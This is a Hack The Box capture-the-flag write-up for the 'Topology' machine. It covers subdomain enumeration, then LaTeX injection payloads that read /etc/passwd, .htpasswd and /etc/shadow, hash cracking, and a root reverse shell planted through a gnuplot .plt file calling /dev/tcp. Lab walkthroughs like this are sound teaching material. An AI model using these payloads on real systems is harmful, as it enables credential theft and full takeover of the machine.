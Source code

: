 ```yaml
---
slug: /write-up/htb/easy/topology
pagination_next: null
pagination_prev: null
---
```


## Enumeration

Port 80 and 22 open

22
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

80
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Miskatonic University | Topology Group
```

Browsing the website, found this subdomain: http://latex.topology.htb/equation.php, it contains a form where you input Latex commands and a mechanism behind that generates a `png`.

Let's search for more subdomains with gobuster:

```bash
./gobuster vhost -u 10.10.11.217 -k --domain "topology.htb" --append-domain -w ~/workspace/gal/SecLists/Discovery/DNS/subdomains-top1million-5000.txt 
```

Found subdomains:
- dev.topology.htb
- stats.topology.htb

Most likely, the service works by writing the provided equation to a file, then invoke a command to pass from tex to png

In a log file we can see the following:

```
This is pdfTeX, Version 3.14159265-2.6-1.40.20 (TeX Live 2019/Debian) (preloaded format=pdflatex 2022.2.15)  12 MAR 2022 08:48
```

We see that we can inject commands in Latex, however there are some prohibitions in place:

Prohibited commands:
- `\input`
- `\include`
- `\verbatiminput`
- `\write\outfile{Hello-world}`
- `\immediate\write18{id > output}`

## Foothold

This payload works but only returns the first line:
```
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

There's another option to read files:

```tex
$\lstinputlisting{/etc/passwd}$
```

Here we can see the user `vdaisley`.

Knowing that we have scanned the vhost and found dev and see some `.htaccess` and `.htpasswd`, now we can download them with the previous discovered reading method.

```tex
$\lstinputlisting{"/var/www/dev/.htpasswd"}$
$\lstinputlisting{"/etc/shadow"}$
```

it will download the PNG image with the file contents, the password stored is a MD5 hash, which we can extract using tesseract:

```bash
tesseract exfil/equation.png exfil/equation.txt
```

Then crack the hash using hashcat:
```bash
hashcat hash.txt ~/workspace/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
This will return the password for user `vdaisley`, now you can SSH into the machine and get permanent access.

## Privilege escalation

In /opt we can find the `gnuplot` binary owned by root but with write and execution permissions for the user.

This binary is used to generate the images. We can try to see if it's execute by running ps aux multiple times.

If we don't see any result, it means the process is executed by another user. But don't worry, we can use [pspy](https://github.com/DominicBreuker/pspy) to monitor processes not belonging to our user.

And there we see root is executing the following command

```
2023/06/13 16:33:01 CMD: UID=0     PID=1419   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
```

So basically, gnuplot will execute any `plt` file found in /opt/gnuplot. 

Now what we can do is to create a plt file that will start a reverse shell with the user root.

e.g

```
system "bash -c 'bash -i >& /dev/tcp/10.10.14.151/4444 0>&1'"
```

Once the connection is established, we'll have `root` access in the console and we can read the flag.